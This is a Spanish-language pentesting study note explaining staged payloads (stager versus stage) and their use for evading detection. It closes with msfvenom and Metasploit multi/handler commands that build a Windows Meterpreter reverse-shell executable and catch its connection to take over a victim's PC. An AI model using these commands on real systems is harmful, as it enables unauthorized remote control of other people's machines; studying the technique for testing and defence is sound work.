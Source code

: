 ___

- Tags: #enumeración  #payload-staged #metasploit

---

# Introducción

En el ámbito de la ciberseguridad y las pruebas de penetración, el concepto de "**Payload Staged**" se refiere a la división de un payload malicioso en dos etapas distintas: la etapa inicial (**stager**) y la etapa final (**stage**). Este enfoque es comúnmente utilizado para eludir medidas de seguridad y facilitar la entrega y ejecución de exploits de manera más efectiva.

___
# Componentes del Payload Staged

1. **Stager (Etapa Inicial):**

   - El stager es la primera parte del payload y suele ser más pequeño y simple.
   - Su función principal es establecer una conexión inicial con el servidor de comando y control (C2) para descargar la etapa final.
   - Puede realizar funciones básicas, como establecer una conexión reversa, abrir una puerta trasera o descargar archivos adicionales.

2. **Stage (Etapa Final):**

   - La etapa final es la parte principal del **payload** y contiene la carga útil completa.
   - Se descarga y ejecuta después de que el stager haya establecido la conexión inicial.
   - Puede incluir exploits, scripts maliciosos, o cualquier código necesario para llevar a cabo la tarea específica que se desea realizar.

___
# Ventajas del Payload Staged

1. **Evitación de Detección:**
   - Al dividir el payload en dos etapas, se reduce la probabilidad de detección por parte de los sistemas de seguridad, ya que la etapa inicial puede tener una firma menos sospechosa.

2. **Flexibilidad y Adaptabilidad:**
   - Permite a los operadores de ciberseguridad adaptar y modificar fácilmente la etapa final sin afectar el stager. Esto facilita la actualización y evolución constante de las tácticas.

3. **Eficiencia de Red:**
   - La transferencia de un stager más pequeño inicialmente puede ser más eficiente en términos de ancho de banda, especialmente en entornos con restricciones de red.

___
# Ejemplos de Payload Staged 

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=ip LPORT=puerto -f exe -o nombre.exe
```

Este comando se utiliza para crear un archivo ejecutable (.exe) que, al ejecutarse, establece una conexión de [[reverse shell]] hacia una dirección [[Dirección IP|IP]] y puerto específicos.

```bash
msfdb run
```

Este comando inicia el entorno de [[Metasploit Framework]].

```bash
use exploit/multi/handler
```

Aquí seleccionamos el exploit que se va a utilizar.

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

Se especifica el payload que se utilizará.

```bash
set LHOST ip
set LPORT puerto
```

Se establece la dirección [[Dirección IP|IP]] y el puerto del atacante.

```bash
run 
```

Con este comando, se inicia el listener para esperar la conexión de la [[reverse shell]].

Al ejecutar el archivo .exe en la máquina víctima, se establecerá una conexión y se obtendrá acceso a toda la PC de la víctima.